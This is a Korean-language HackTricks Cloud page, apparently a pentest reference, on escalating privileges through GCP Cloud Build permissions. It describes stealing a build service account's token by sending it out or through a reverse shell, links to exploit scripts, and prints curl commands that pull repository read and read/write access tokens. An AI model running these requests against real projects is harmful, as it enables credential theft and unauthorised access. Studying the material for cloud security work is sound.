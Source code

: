 # GCP - 클라우드빌드 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

- **회사 광고를 보고 싶거나 HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **해킹 요령을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 제출하세요.

</details>

## cloudbuild

클라우드 빌드에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

이 권한을 가지면 **클라우드 빌드를 제출**할 수 있습니다. 클라우드빌드 머신에는 **기본적으로 클라우드빌드 서비스 계정의 토큰**이 파일 시스템에 있습니다: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. 그러나 클라우드빌드 구성에서 **프로젝트 내의 어떤 서비스 계정을 지정**할 수 있습니다.\
따라서 머신을 사용하여 토큰을 서버로 유출하거나 **머신 내에서 역쉘을 획들하여 토큰을 획득**할 수 있습니다 (토큰이 포함된 파일은 변경될 수 있음).

원본 악용 스크립트는 [**여기 GitHub에서**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) 찾을 수 있습니다 (하지만 토큰을 가져오는 위치가 제대로 작동하지 않았습니다). 따라서 취약한 환경의 [**생성, 악용 및 정리를 자동화하는 스크립트를 여기서**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) 확인하고 클라우드빌드 머신 내에서 역쉘을 얻고 [**여기서 훔치세요**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (코드에서 다른 서비스 계정을 지정하는 방법을 찾을 수 있음).

더 자세한 설명은 [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)를 방문하세요.

### `cloudbuild.builds.update`

**이 권한으로는** 클라우드 빌드를 **업데이트하고 이전 권한과 같이 서비스 계정 토큰을 훔칠 수 있을 수 있습니다** (하지만 작성 시점에 해당 API를 호출하는 방법을 찾지 못했습니다).

TODO

### `cloudbuild.repositories.accessReadToken`

이 권한으로 사용자는 리포지토리에 액세스하는 데 사용되는 **읽기 액세스 토큰**을 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

이 권한을 가지면 사용자는 저장소에 액세스하는 데 사용되는 **읽기 및 쓰기 액세스 토큰**을 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

이 권한을 사용하면 **연결이 액세스할 수 있는 저장소를 가져올 수 있습니다:** 

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로부터 영웅이 되는 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왹**](https://peass.creator-spring.com)을 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

